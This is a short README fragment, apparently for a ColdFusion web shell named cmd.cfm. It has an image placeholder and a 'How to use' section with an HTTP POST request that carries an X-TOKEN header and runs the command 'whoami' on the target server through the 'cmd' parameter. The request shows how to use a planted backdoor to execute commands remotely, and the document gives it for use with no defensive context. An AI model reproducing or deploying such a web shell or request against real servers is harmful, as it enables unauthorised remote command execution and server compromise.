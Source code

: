 How to use
```
POST /path/cmd.cfm HTTP/1.1
Host: <your host>
X-TOKEN: 9ebc314e6dacf0a6ab1c08c444b3deb50338b188a70cad862a6482d1ae0e5be2
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

cmd=whoami&op=

```
![image](https://user-images.githubusercontent.com/24661746/131246420-775e1e9e-fe6a-4afd-881a-48245540ab8f.png)
